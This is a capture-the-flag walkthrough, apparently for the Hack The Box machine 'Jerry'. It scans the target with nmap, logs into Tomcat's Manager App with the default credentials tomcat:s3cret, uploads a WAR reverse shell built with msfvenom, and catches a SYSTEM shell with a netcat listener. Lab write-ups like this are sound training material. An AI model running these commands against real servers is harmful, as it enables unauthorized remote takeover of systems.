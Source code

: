 # Jerry

## Nmap

```
sudo nmap 10.10.10.95 -p- -sS -sV  
 
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 203.34 seconds
```

The root page for port 8080 takes us to an install of Apache Tomcat / 7.0.88.

![](<../../../.gitbook/assets/image (1676).png>)

When clicking on the 'Manager App' button we are asked for authentication before proceeding. Looking up the default credentials on Google we get the result below.

![](<../../../.gitbook/assets/image (1679).png>)

From the list above I tried `tomcat:s3cret` and was granted access as shown below. I have done penetration testing against Tomcat previously and know that once you have access to the Manager App you can upload a malicious WAR file in order to gain shell.

![](<../../../.gitbook/assets/image (1678).png>)

Using the command below we can create a WAR reverse shell with `msfvenom`.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.29 LPORT=80 -f war > shell.war
```

![](<../../../.gitbook/assets/image (1680).png>)

Once uploaded we can then see the upload shell under 'Applications'.

![](<../../../.gitbook/assets/image (1681).png>)

Then start a `netcat` listener on the attacking machine:

```
sudo nc -lvp 80
```

Then click on the uploaded WAR file under applications to execute. As per below you should then have a reverse shell as SYSTEM.

![](<../../../.gitbook/assets/image (1683).png>)
